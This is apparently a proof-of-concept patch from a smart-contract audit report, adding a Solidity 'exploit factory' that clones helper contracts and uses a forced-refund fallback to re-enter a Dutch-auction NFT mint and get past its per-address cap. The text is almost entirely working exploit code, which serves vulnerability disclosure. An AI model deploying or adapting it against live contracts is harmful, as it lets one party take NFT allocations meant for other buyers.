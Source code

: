 ```patch
+    uint256 immutable MINT_CAP;
+    uint256 immutable CAP_PER_ADDRESS;
+    uint256 amountToMint;
+
+    constructor(address _meritNFT, address _auction) {
+        exploitImplementation = address(new Exploit(_meritNFT, _auction));
+        meritNFT = _meritNFT;
+        auction = MeritDutchAuction(_auction);
+        MINT_CAP = auction.MINT_CAP();
+        CAP_PER_ADDRESS = auction.CAP_PER_ADDRESS();
+    }
+
+    function onERC721Received(
+        address,
+        address,
+        uint256 tokenId,
+        bytes calldata
+    ) external returns (bytes4) {
+        IERC721(meritNFT).safeTransferFrom(address(this), owner(), tokenId);
+        return IERC721Receiver.onERC721Received.selector;
+    }
+
+    function _createExploit() internal returns (address) {
+        address clone = Clones.clone(exploitImplementation);
+        return clone;
+    }
+
+    function _exploit(uint256 _amount) internal {
+        uint256 price = auction.getPrice();
+        uint256 amount = _amount >= CAP_PER_ADDRESS ? CAP_PER_ADDRESS : _amount;
+
+        if (amount > 0) {
+            _exploitContract = Exploit(payable(_createExploit()));
+            // Force refund
+            _exploitContract.execute{value: price * amount + 1}(amount);
+        }
+    }
+
+    function exploit(uint256 _amountToMint) external payable onlyOwner {
+        amountToMint = _amountToMint;
+        _exploit(amountToMint);
+    }
+
+    function cleanup() external onlyOwner {
+        (bool success, ) = payable(msg.sender).call{
+            value: address(this).balance
+        }("");
+        require(success, "Exploit Factory: Refund failed");
+    }
+
+    function _fallback() internal {
+        if (msg.sender == owner()) {
+            return;
+        }
+        if (msg.sender == address(_exploitContract)) {
+            amountToMint -= CAP_PER_ADDRESS;
+            _exploit(amountToMint);
+        }
+    }
+
+    fallback() external payable {
+        _fallback();
+    }
```